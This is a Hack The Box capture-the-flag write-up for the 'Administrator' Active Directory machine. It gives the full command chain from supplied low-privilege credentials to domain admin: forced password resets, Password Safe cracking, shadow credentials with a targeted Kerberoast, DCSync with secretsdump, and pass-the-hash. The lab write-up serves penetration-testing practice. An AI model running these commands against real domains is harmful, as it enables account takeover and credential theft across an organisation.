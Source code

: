 ```yaml
---
title: "CTF Writeup: Administrator"
date: 2024-12-14
categories: [CTF, Writeup, hackthebox]
tags: [AD, Bloodhound, HTB]
---
```


# Hack The Box - Administrator

## Description
Administrator is a medium difficuly Windows Active Directory machine. The machine is designed around a complete domain compromise scenario, where credentials for a low-privileged user are provided.

## Information Gathering

### Step 1: Enumeration
Starting with running good olde nmap to enumerate the target machine.

```bash
# sudo nmap -sC -sV -A -v -p- -Pn -T4 -oN NMAP/Administrator_TCP 10.129.137.44
```
![alt text](/assets/screenshots/Administrator/image.png) <br>
From the output of the nmap scan it's clear that this is a active directory machine.

First I will check if the credentials supplied are working.

```bash
# netexec smb 10.129.137.44 -u olivia -p 'ichliebedich'
```
![alt text](/assets/screenshots/Administrator/image-1.png)<br>
The credentials seem to work on the target. The user account is legit.

Next step is to check if the user account is allowed to login to the target using winrm. To check this I could use netexec again or simply try with evil-winrm.

```bash
# evil-winrm -i 10.129.137.44 -u olivia -p 'ichliebedich'
```
![alt text](/assets/screenshots/Administrator/image-2.png)<br>
The login was successfull. It's now possible to enumerate the target internally and get some more insight in what kind of attack path I can take.<br>
Looking at the users present on the system is always a good first step.

```bash
# whoami /all
```
![alt text](/assets/screenshots/Administrator/image-4.png)<br>
These usernames can be used later in the process to enumerate and bruteforce if needed.

Next is using bloodhound to enumerate the Active Directory network. Using bloodhound shows a lot of information about relations between users, groups, objects and more about the network. This can be a treasure trove of information about the target network.
```bash
# netexec ldap 10.129.137.44 -u olivia -p 'ichliebedich' --bloodhound --collection All --dns-server 10.129.137.44
```
![alt text](/assets/screenshots/Administrator/image-5.png)

After the data is retrieved I upload the zip file into bloodhound and check for interesting relations.
![alt text](/assets/screenshots/Administrator/image-6.png)<br>
The owned user Olivia has <b>GenericAll</b> rights over Michael. This means that using the Olivia account I can, for example, update the password for the Micheal user. Doing this will give access to the Micheal Account.

## Exploitation

### Step 2: Lateral Movement

Using the evil-winrm session with Olivia I will change the password for the Michael account.
```bash
# net user michael password123 /domain
```
![alt text](/assets/screenshots/Administrator/image-7.png)<br>

Now I can test if the password change was successful using netexec.
```bash
# netexec smb 10.129.134.44 -u micheal -p 'password123'
```
![alt text](/assets/screenshots/Administrator/image-14.png)<br>
The password update worked! <br>
Now I can try to get another session using winrm with the Micheal account.
```bash
# evil-winrm -i 10.129.137.44 -u michael -p 'password123'
```
![alt text](/assets/screenshots/Administrator/image-15.png)<br>
The session works! I'm able to login to the target using the Micheal account.

Now I will update the bloodhound to show that the user Micheal is pwnd. This can give some new attack paths I can take.
![alt text](/assets/screenshots/Administrator/image-10.png) <br>
Checking the First Degree Object Control for the user Michael we see that the account has <b>ForceChangePassword</b> privileges on Benjamin.<br>

This means I can use the net rpc command to update the password for the Benjamin user.
```bash
# net rpc password benjamin password123 -U Administrator.htb/michael%password123 -S administrator.htb
```
![alt text](/assets/screenshots/Administrator/image-11.png)<br>

Now I will verify of the password change worked using netexec.
```bash
# netexec smb 10.129.137.44 -u benjamin -p 'password123'
```
![alt text](/assets/screenshots/Administrator/image-16.png)<br>

The password change worked and the account it now active. However I am not able to use it to setup a session with winrm like the other accounts. This accounts seems to have more restrictions then the others.<br>

However during the enumeration phase a ftp server was found.

![alt text](/assets/screenshots/Administrator/image-17.png)<br>
The Benjamin account has access to the ftp service. Inside this FTP server a backup.psafe3 file was found.

### Cracking the pwsafe backup file

Using the Benjamin account I found a pwsafe backup file on then ftp server on the target. I will try and crack the password on the backup file and get access to the content. <br>

First I need to extract the hash from the backup file before cracking it. For this I will be using john with the pwsafe module.
```bash
# pwsafe2john Backup.psafe3 > pwsafe.hash
# john --wordlist=/usr/share/wordlists/rockyou.txt pwsafe.hash
```
![alt text](/assets/screenshots/Administrator/image-20.png)<br>
It worked! I now have access to the contents of the backup pwsafe file.<br>

![alt text](/assets/screenshots/Administrator/image-19.png)<br>
Inside the backup file there are credentials for 3 users.

Checking these credentials I found that the credentials for emily still work!
![alt text](/assets/screenshots/Administrator/image-22.png)<br>

I update bloodhound so I can see what attack paths I got with the Emily user.
![alt text](/assets/screenshots/Administrator/image-21.png)<br>

Emily got <b>GenericWrite</b> privileges on Ethan.

Now that I know that Emily has GenericWrite over Ethan I can use pywhisker in combination with a targeted kerberoast to extract the hash for ethan from the SPN.

First I use pywhisker to obtain the TGT I need for the targeted kerberoast. <br>

```bash
# python3 pywhisker.py -d administrator.htb -u emily -p password --target ethan --action "add"
```
![alt text](/assets/screenshots/Administrator/image-24.png)<br>

Now I need to update our time to be in sync with the target. I can use ntpdate for this. <br>

```bash
# ntpdate administrator.htb
```
![alt text](/assets/screenshots/Administrator/image-23.png)<br>

Now I should be able to use the targetedkerberoast attack on the target.
```bash
# python3 targetedKerberoast.py -v -d 'administrator.htb' -u emily -p password
```
![alt text](/assets/screenshots/Administrator/image-33.png)<br>

Cracking the hash should result in the password for the user Ethan!

![alt text](/assets/screenshots/Administrator/image-26.png) <br>
The credentials are still active.

Now for testing the credentials I use good olde netexec.
```bash
# netexec smb 10.129.137.44 -u ethan -p 'password'
```
![alt text](/assets/screenshots/Administrator/image-28.png)<br>

Now that I got access to the machine using the user account Ethan. I will update bloodhound to see a new attack path with the user account Ethan.
![alt text](/assets/screenshots/Administrator/image-27.png)<br>
Ethan can use a DCSync attack!

## Privilege Escalation
### Executing DCSync

I will use impacket-secretsdump to execute the DCSync.
```bash
# impacket-secretsdump -just-dc-user administrator administrator.htb/ethan:"password"@administrator.htb
```
![alt text](/assets/screenshots/Administrator/image-29.png)<br>
Seems I got the Administrator hash!

I'll try connecting to the target using the winrm protocol and the administrator accounts with a pass-the-hash attack.
```bash
# evil-winrm -i 10.129.137.44 -u administrator -H HASH
```
![alt text](/assets/screenshots/Administrator/image-32.png)<br>
I got an active session on the target as the Administrator user.

Now I can get the flags.

![alt text](/assets/screenshots/Administrator/image-30.png)<br>
Got him!

![alt text](/assets/screenshots/Administrator/image-31.png)<br>
NOICE!

## Conclusion
To summarize this machine. This machine has a lot of DACL misconfigurations, this allows the system to be compromised a lot easier. This made this machine a fine way to practive some basic AD movement and AD pentesting practice.

## Lessons Learned
- Make sure the relations and rights of users and groups are correctly enforced.
- Use only hard to guess passwords